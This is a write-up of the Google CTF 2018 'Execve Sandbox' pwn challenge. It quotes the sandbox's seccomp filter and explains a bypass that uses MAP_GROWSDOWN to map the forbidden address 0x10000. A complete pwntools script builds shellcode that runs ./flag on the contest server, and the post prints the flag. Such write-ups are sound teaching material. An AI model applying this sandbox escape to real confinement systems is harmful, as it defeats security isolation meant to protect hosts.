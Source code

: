 ```yaml
---
title: Execve Sandbox - Google CTF 2018
layout: post
date: '2018-06-26 19:32:23'
---
```


> What a kewl sandbox! Seccomp makes it impossible to execute ./flag
> 
> nc execve-sandbox.ctfcompetition.com 1337
> 
> [Attachment](/assets/google18/execve-sandbox.c)


*283 points, 23 Solves, pwn*


We are given the source to a sandbox that reads a Elf64 binary, initializes the sandbox, then runs the sandboxed program. It does this by first checking that none of the Elf sections are within the range `0x10000-0x11000`, then uses `seccomp` to only allow a few safe syscalls.

```c
static int install_syscall_filter(unsigned long mmap_min_addr)
{
  int allowed_syscall[] = {
    SCMP_SYS(rt_sigreturn), SCMP_SYS(rt_sigaction), SCMP_SYS(rt_sigprocmask), SCMP_SYS(sigreturn), 
    SCMP_SYS(exit_group), SCMP_SYS(exit), SCMP_SYS(brk), SCMP_SYS(access), SCMP_SYS(fstat), SCMP_SYS(write),
    SCMP_SYS(close), SCMP_SYS(mprotect), SCMP_SYS(arch_prctl), SCMP_SYS(munmap), SCMP_SYS(fstat),
    SCMP_SYS(readlink), SCMP_SYS(uname),
  };
  
  scmp_filter_ctx ctx;
  unsigned int i;
  int ret;

  ctx = seccomp_init(SCMP_ACT_KILL);
  if (ctx == NULL) {
    warn("seccomp_init");
    return -1;
  }

  for (i = 0; i < sizeof(allowed_syscall) / sizeof(int); i++) {
    if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, allowed_syscall[i], 0) != 0) {
      warn("seccomp_rule_add");
      ret = -1;
      goto out;
    }
  }

  /* prevent mmap to map mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap), 1,
                       SCMP_A0(SCMP_CMP_GE, mmap_min_addr + PAGE_SIZE)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  /* first execve argument (filename) must be mapped at mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 1,
                       SCMP_A0(SCMP_CMP_EQ, mmap_min_addr)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  puts("[*] seccomp-bpf filters installed");

  ret = seccomp_load(ctx);
  if (ret != 0)
    warn("seccomp_load");

out:
  seccomp_release(ctx);
  return ret;
}
```
It also allows execve but only if the first argument is `0x10000` and allows `mmap` but only if the address is greater than or equal to `0x11000`.

The end goal is to run the `flag` program in the current directory, but as `0x10000` isn't mapped and `seccomp` wont allow us to mmap it, it seems impossible.

After a bit of reading I came across `MAP_GROWSDOWN` which I'd only used for creating fake stacks before, but I realised that it could be used to defeat the sandbox! We just map a page at `0x11000` with the `MAP_GROWSDOWN` flag set, then set the stack to 0x11000 and push something. This will cause the kernel to automatically map another page for the stack instead of causing a page fault, so it will now cover `0x10000`. Now we can write `./flag` to 0x10000 and run execve.

Using all the amazing helper functions of [pwntools](https://github.com/Gallopsled/pwntools) this turn out to be pretty simple:

```python
#!/usr/bin/env python2
from pwn import *

def exploit():
  code = ""
  code += shellcraft.syscall('SYS_mmap', 0x11000, 0x1000, 
    constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC,
    constants.MAP_GROWSDOWN | constants.MAP_ANONYMOUS | constants.MAP_PRIVATE,
     0, 0
  )
  code += "mov rsp, 0x11000\n"
  code += shellcraft.pushstr("./flag")
  code += shellcraft.memcpy(0x10000, 'rsp', 6)
  code += shellcraft.syscall('SYS_execve', 0x10000, 0, 0)
  code += shellcraft.exit(0)

  elf = make_elf(asm(code), extract=True, strip=True )

  payload = elf.ljust(0x1000, "\x00")
  p.sendafter("binary...", payload)

  print p.recvall()

if __name__ == "__main__":
  name = "./execve-sandbox"
  binary = ELF(name)

  context.terminal=["tmux", "sp", "-h"]
  context.arch = "amd64"
  context.os = "linux"

  if len(sys.argv) > 1:
    p = remote("execve-sandbox.ctfcompetition.com", 1337)
  else:
    p = process(name, cwd="./sandbox", env={})

    gdb.attach(p, """
      set follow-fork-mode child
    c
    """)

  exploit()
```

Which prints out the flag `CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}`